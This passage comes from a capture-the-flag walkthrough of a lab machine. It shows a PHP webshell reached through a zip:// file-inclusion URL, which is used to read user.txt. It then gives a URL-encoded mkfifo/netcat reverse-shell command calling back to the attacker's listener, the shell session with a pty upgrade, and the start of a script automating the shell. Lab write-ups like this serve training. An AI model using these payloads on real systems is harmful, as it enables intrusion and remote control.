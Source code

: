 ### user.txt

With the webshell, we can get user.txt:

  url                                                                                                                             result
  ------------------------------------------------------------------------------------------------------------------------------- -------------
  http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=ls%20/home                 dom
  http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=ls%20/home/dom             user.txt
  http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=cat%20/home/dom/user.txt   28a3c49d...

## Interactive Shell

With the webshell, check for `nc -e`, but neither `nc` nor `nc.openbsd`
have the option. So, use a `fifo pipe`. Visit
`http://10.10.10.80/?op=zip://uploads/10.10.14.139/051f7db8f8de40c856efbed60179e6e1b0b528b1%23cmd&cmd=rm%20/tmp/d;%20mkfifo%20/tmp/d;%20cat%20/tmp/d%20|%20/bin/sh%20-i%202%3E%261|nc%2010.10.14.139%208081%20%3E%20/tmp/d`,
and catch callback:



    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.139] from (UNKNOWN) [10.10.10.80] 50870
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ which python
    $ which python3
    /usr/bin/python3
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@ubuntu:/var/www.md$



### request_shell.sh

It's always nice to script up the shell, especially for one with as many
steps as this.



    #!/bin/bash

    if [ "$#" != "2" ]; then
        echo "$0 [zip file] [shell] [parameter] [ip] [port]"
        echo "$# given"
        exit 1
    fi

    zip="/tmp/payload.zip"
    shell="shell"
    shell_path="/tmp/${shell}.php"
    param="cmd"
    ip=$1
    port=$2
